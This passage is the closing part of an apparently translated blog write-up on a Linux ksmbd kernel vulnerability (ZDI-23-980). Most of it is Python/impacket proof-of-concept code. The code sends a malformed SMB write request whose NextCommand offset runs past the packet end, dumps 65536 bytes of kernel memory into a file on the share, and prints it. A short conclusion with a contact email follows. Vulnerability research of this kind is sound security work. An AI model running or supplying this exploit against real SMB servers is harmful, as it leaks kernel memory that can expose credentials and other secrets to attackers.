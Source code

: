 ```

    packet["Data"] = (p16(StructureSize) + p16(DataOffset) + p32(Length) + p64(0) + file_id[:8] + p64(0) + p32(0) + p32(0) + p16(0) + p16(0) + p32(0) + p8(0))
    packet["TreeID"] = tree_id
    packet["NextCommand"] = DataOffset+Length  # the end of the buffer is past the end of the packet

    print(f"[*] sending OOB read for 65536 bytes... (writing to file '{filename}')")
    conn.sendSMB(packet)

    print("[*] closing file descriptors...")
    conn.close(tree_id, file_id)  # close fd's bcs impacket is impacket

    print(f"[*] reading file containing kernel memory: '{filename}'")
    conn.retrieveFile(share, filename, print)  # print file (containing kmem dump)



if __name__ == "__main__":
    main("user", "pass", "files", "dump.bin")
```


利用 SMB_WRITE 的 ZDI-23-980 PoC 漏洞利用


## 结论

感谢您阅读我撰写的有关 Linux 内核漏洞的文章。希望你了解了 ksmbd 内核子系统，并喜欢我的文章风格。
有关问题、工作咨询及其他事宜，请发送电子邮件至 redpigsixsixsix@protonmail.com。

